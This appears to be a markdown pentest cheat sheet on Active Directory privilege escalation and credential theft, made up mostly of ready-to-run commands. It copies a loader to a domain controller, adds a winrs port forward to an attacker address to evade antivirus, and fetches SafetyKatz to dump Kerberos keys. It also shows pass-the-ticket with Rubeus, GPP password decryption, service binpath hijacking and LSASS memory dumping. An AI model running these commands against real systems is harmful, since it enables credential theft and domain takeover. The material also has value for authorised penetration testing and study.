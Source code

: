 ```yaml
---
layout: app
title: "Active Directory - PrivEsc"
tags: ["privesc","powerup","powerview","abuse service", "sc.exe", "Rubeus","permissions", "netloader","winrs","SafetyKats", "MS14-025","gpp-decrypt","autologon"]
section: "Active Directory"
---
```


# Privilege Escalation

## CheckList

- -**Missing Patches**
- -**Automated deployment**
- -**Autologon passwords**
- -**AlwaysInstallElevated**
- -**MisConfiguration Services**
- -**DLL Hijacking**
- -**NTLM Relaying**


### Tools
* [PowerUp](https://github.com/PowerShellMafia/PowerSploit/tree/master/Privesc)
* - Invoke-AllChecks
* [Privesc](https://github.com/enjoiz/Privesc)
* [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)


# Extract Hashes or Credentials

Import PowerView.ps1
Use to find out opened sessions

```powershell
Find-DomainUserLocation
```

Download NetLoader.exe and copy to Domain Controller

```powershell
echo f | xcopy C:\users\public\loader.exe \\dc01\c$\Users\Public\loader.exe
```

Add port forward into Domain Controller using winrs, to prevent AV detect

```powershell
$null | winrs -r:dc01 "netsh interface portproxy add v4tov4 listenport=8080 listenaddress=0.0.0.0 connectport=280 connectaddress=[attacket_address]"
```

Invoke Loader to run SafetyKats to get hashes and credentials

```powershell
$null | winrs -r:dc01 "c:\Users\Public\loader.exe -Path http://127.0.0.1:8080/SafetyKatz.exe sekurlsa::ekeys exit"
```

With **aes256_hmac** can be use **Rubeus** to execute command

```powershell
Rubeus.exe asktgt /user:<username> /aes256:<aes256_hmac> /opsec /createnetonly:C:\windows\system32\cmd.exe /show /ptt
```

# MS14-025

(https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN]

The password stored within Groups.xml inside SYSVOL share folder, must be decrypted use the Password published by Microsoft.

Use **gpp-decrypt** to do that.

```powershell
gpp-decrypt "EncryptedPassword"
```

## Enumeration

(https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN)[https://docs.microsoft.com/en-us/openspecs/windows_protocols/ms-gppref/2c15cbf0-f086-4c74-8b70-1f2fa45dd4be?redirectedfrom=MSDN]


# Autologon

When auto logon is configured via Group Policy, can found the password into Registry.xml file.

## Tools

```powershell
NetExec smb -u <UserName> -p <Password> -d <Domain> -M gpp_autologin
```
* Get-GPPAutologon.ps1 (PowerSploit)


## PowerSploit

### Get Services with Unquoted Path

```powershell
Get-ServiceUnquoted -Verbose
Get-WmiObject -Class win32_service | select pathname
```
### Current User rights

Determine if the current user has rights to modify the service binary itself or any associated arguments

```powershell
Get-ModifiableServiceFile
```

### Get Service Security Permission
```powershell
sc.exe sdshow "servicename"
```
**--------------------OUTPUT----------------------------**

- **D**: Indicates that is a Security Policy
- **A**: Indicates than additional permits are granted.
- **CC**: Change Permissions
- **LCSW**: List Contents
- **RP**: Read Permission
- **WP**: Write Permission
- **DT**: Delete Toggles
- **LOCRRC**: Ocultar o revelar recursos
- **;;;** indicates that the permissions apply to the account **service**

### Abuse of service

```powershell
sc.exe config "servicename" binpath="newservicepath"
```


## Enumeration

### Find computers where a current user can execute commands

```powershell
(powerview)> Find-LocalAdminAccess
(powerview)> Find-WMILocalAdminAccess.ps1
(powerview)> Find-PSRemotingLocalAdminAccess.ps1 
(powerview)> Invoke-CheckLocalAdminAccess
```

### Get all domain computers

```powershell
Get-NetComputer
```
### Finds domain machines where specific users are logged into

```powershell
Test-AdminAccess
Find-DomainUserLocation -CheckAccess
Find-DomainUserLocation -Stealth
```
## Run all checks

### PowerUp


```powershell
Invoke-AllChecks
```

### Privesc

```powershell
Invoke-PrivEsc
Invoke-Privesc check
```

### PEASS-ng

```powershell
winPEASx64.exe
```

# Dump Memory

```powershell
tasklist /FI "IMAGENAME eq lsass.exe"
rundll32.exe c:\windows\system32\comsvcs.dll, MiniDump "Lsass Process ID" c:\temp\lsass.dmp full
```

## Tools 

* lsassy
* Physmem2profit
* impacket